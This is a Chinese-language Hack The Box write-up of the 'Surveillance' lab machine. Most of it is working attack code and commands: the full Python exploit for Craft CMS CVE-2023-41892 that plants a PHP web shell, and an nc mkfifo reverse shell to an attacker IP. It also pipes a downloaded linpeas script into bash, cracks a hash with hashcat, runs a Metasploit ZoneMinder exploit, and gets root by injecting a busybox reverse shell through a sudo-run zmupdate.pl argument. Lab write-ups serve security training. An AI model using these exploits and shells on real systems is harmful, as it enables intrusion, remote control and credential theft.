




### HTB | Surveillance CVE-2023-41892 CVE-2023-26035

使用nmap进行端口扫描

```
nmap -sV -sC -v -oN Surveillance.log 10.10.11.245  
```

```
# Nmap 7.93 scan initiated Mon Dec 18 08:57:23 2023 as: nmap -sV -sC -v -oN Surveillance.log 10.10.11.245
Nmap scan report for 10.10.11.245
Host is up (0.56s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
1080/tcp open  socks5  (Username/password authentication required)
| socks-auth-info: 
|   No authentication
|   No authentication
|_  Username and password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 18 08:58:03 2023 -- 1 IP address (1 host up) scanned in 39.68 seconds
```


使用gobuster进行目录扫描

```
gobuster dir -u http://surveillance.htb --wordlist=/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -q -t 200 -x .php,.zip,.txt,.html
```


使用谷歌搜索craft cms 4.4.14 rce 找到**[CVE-2023-41892](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226)**

```
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php" />
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)    

def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)
```

使用python执行POC,直接上线web权限

```
python CVE-2023-41892.py http://surveillance.htb
```



查看目录文件及用户id


反弹个nc维持稳定远程权限

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.3 5566  >/tmp/f
```


在/var/www/html/craft/storage/backups中发现一个sql的压缩包，使用python开启http服务，访问并下载文件

```
python3 -m http.server 1144
```



在sql备份文件中发现一个hash值

```
echo “39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec” > hash
```


使用hash-identifier识别hash属性，识别出来为SHA-256,Haval-256

```
hash-identifier
```


使用hashcat 进行爆破

```
hashcat -m 1400 hash  /usr/share/wordlists/rockyou.txt
```

```
starcraft122490
```



登录到matthew用户

```
ssh matthew@10.10.11.245 
```


user flag

```
0c7e023577d0e134ff4ddd0cf687d448
```


查看内核版本

```
uname -a
cat /proc/version
ubuntu 5.15
```


使用python开启http服务使用LinPEAS找隐私信息

```
curl http://10.10.16.3:4455/linpeas.sh | bash
```


数据库密码

```
ZoneMinderPassword2023
```


数据库密码

```
CraftCMSPassword2023!
```


登录到mysql

```
mysql -u craftuser -D craftdb -pCraftCMSPassword2023!
```

查询表单

```
show tables;
```


查询字段

```
select  * from users;
```


看到一个hash

```
$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe
```

使用john进行爆破

```
john --wordlist=/usr/share/wordlists/rockyou.txt  hash 
```

爆破失败

使用linpeas扫描发现开启了8080端口


使用ssh进行端口转发至本地

```
ssh -L 8080:localhost:8080 matthew@10.10.11.245
```


本机访问8080端口


在谷歌搜索

```
zoneminder exploit
```


搜索到**[CVE-2023-26035](https://github.com/rvizx/CVE-2023-26035)**漏洞

网上现成的exp

```
git clone https://github.com/rvizx/CVE-2023-26035.git
cd CVE-2023-26035
python exploit.py -t "http://127.0.0.1:8080/index.php" -ip 10.10.16.16 -p 5566
```



这里我们使用的是metasploit

```
msfconsole 
use exploit/unix/webapp/zoneminder_snapshots 
show options 
set rhosts 127.0.0.1
set rport 8080
set targeturi /index.php/
set lhost 10.10.16.16
exploit
```


进入目标主机cmd

```
shell
whoami
script /dev/null -c bash
sudo -l
```


使用python 临时开启http服务传输shell脚本进行反弹

BusyBox 是一个**集成了三百多个最常用Linux命令和工具的软件**。 BusyBox 包含了一些简单的工具，例如ls、cat和echo等等，还包含了一些更大、更复杂的工具，例grep、find、mount以及telnet。 有些人将 BusyBox 称为 Linux 工具里的瑞士军刀

```
#!/bin/bash
busybox nc 10.10.16.16 5566 -e sh
```

使用sudo执行shell脚本 pass中的密码是上文linpeas找到的

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/shell1.sh)' --pass=ZoneMinderPassword2023
```

nc开启监听上线


```
ec2fb16d285ebcb18e1a5e1725587b9c
```

1888吉利数保存一下


